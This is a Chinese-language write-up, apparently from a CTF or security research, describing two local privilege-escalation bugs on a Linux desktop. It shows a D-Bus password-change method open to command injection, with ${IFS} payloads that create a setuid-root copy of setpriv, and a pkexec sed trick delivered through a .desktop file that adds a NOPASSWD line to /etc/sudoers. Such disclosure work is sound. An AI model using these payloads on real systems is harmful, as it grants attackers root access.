







## nfsdomain

### 配置信息

漏洞点在`/usr/share/nfs-domain-client/nfs-domain-agent`

- `/etc/dbus-1/system.d/com.nfs.domain.conf`文件中同样允许任意用户调用



策略配置问题在，前面说明了`<allow send_destination="com.nfs.domain"/>`

虽然后面又`send_interface`配置，但是前面已经全部放行了

- 查看方法

```
gdbus introspect --system  --dest com.nfs.domain  --object-path /com/domain/agent
```

有一个`modify_localpassword(in  s new_pwd, out s arg_0);`方法

使用ida打开



格式校验，new_pwd必须以zzkk开头



命令拼接，拼成：`echo "<用户名>:<密码>" | sudo chpasswd`

最后加上bash`bash -c 'echo "用户名:密码" | sudo chpasswd'`

### 构造poc

构造输出

```
new_pwd = 'zzkkroot a"|/usr/bin/id>/tmp/dom-poc;#'
```

拼接后的结果是

```
echo "root:a"|/usr/bin/id>/tmp/dom-poc;#" | sudo chpasswd
```

之后，为了防止payload的空格导致被分割为两段，使用`${IFS}`代替空格

```
zzkkroot a"|/bin/cp${IFS}/usr/bin/setpriv${IFS}/path&&/bin/chmod${IFS}4755${IFS}/path;#
```

之后确定没有鉴权，使用脚本构造注入命令即可


## sed

文件路径为/usr/bin/sed，是一个文本流编辑器，用于对文本进行逐行处理

### 信息搜集

刚开始定位到的是`/usr/share/found-accounts-manager/main.py`



其中，似乎有很好的命令注入点

```
x = os.system("echo  '%s\\n%s' |passwd %s" % (newpass, newpass, username))
```

但是这个类只有定义，并没有实例化

之后定位到/usr/bin/sed



只允许active的调用，意思就是，人的操作可以调用，远程ssh的不可以

所以需要找一个模拟真实人的操作来调用到sed，列举图形会话

```
loginctl list-sessions --no-legend
```



`session 2`就是图形会话，确认具有图形桌面的控制权

### 进程调用链

需要确定，哪个进程能够调用`pkexec /usr/bin/sed` 

polkit判断是否是active，判断的是发起进程的 **cgroup**

我们需要找一个session-2的cgroup

```
ps -u $USER -o pid,ppid,cgroup:60,cmd | head -30
```

定位到了1788

```
1788    1387 0::/user.slice/user-1000.slice/session-2.scope               /usr/bin/cdos-desktop
```

是窗口管理器



exit=0，polkit判定放行了

接下来需要找子进程入口，通过dbus看到主接口为`org.freedesktop.Desktop`，经过对dbus的introspect的判断，没有能够调用的点

选取天然存在的路径，就是打开菜单，读一个自定义的`.desktop`文件，自己fork出pkexec命令

复杂点在于，如何成功使用脚本开启菜单并且搜索.desktop打开首条结果

**.desktop**

```sh
[Desktop Entry]
Type=Application
Name=xsedpoc
Exec=bash -c "pkexec /usr/bin/sed -i '$a <user> ALL=(ALL:ALL) NOPASSWD: ALL' /etc/sudoers"
```

脚本中，做了很多：截屏之后对比像素是否成功搜索等内容

之后成功选中激活后完成提权
